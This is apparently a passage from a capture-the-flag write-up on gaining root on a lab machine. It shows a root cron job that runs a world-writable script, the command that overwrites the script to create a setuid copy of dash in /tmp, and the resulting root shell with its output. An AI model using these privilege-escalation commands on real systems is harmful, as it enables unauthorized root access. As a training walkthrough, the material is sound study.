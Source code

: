 Contents of `logrotate` file.

```sh
www-data@red:/etc/cron.d$ cat logrotate
cat logrotate
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
www-data@red:/etc/cron.d$ ls -al /usr/local/sbin/cron-logrotate.sh
ls -al /usr/local/sbin/cron-logrotate.sh
-rwxrwxrwx 1 root root 51 Jun  3  2016 /usr/local/sbin/cron-logrotate.sh
www-data@red:/etc/cron.d$ 
```

And the file permission says we can write to it. Write the below exploit to the `cron-logrotate.sh`.

```sh
www-data@red:/usr/local/sbin$ echo "cp /bin/dash /tmp/dash; chmod u+s /tmp/dash;" > /usr/local/sbin/cron-logrotate.sh
</dash; chmod u+s /tmp/dash;" > /usr/local/sbin/cron-logrotate.sh 
```

So when the cron job run the script as root user the binry `dash` will be copied to the `/tmp` folder and `u+s` permissions are applied. So then we can run the binary as the owner which is root and that will give us root shell.

```sh
www-data@red:/tmp$ ls -al
-rwsr-xr-x  1 root root 173644 Oct  2 06:40 dash
```

The exploit worked and run the binary as follows to obtain root.

```sh
www-data@red:/tmp$ ./dash -p
./dash -p
whoami
root
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.3$ 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).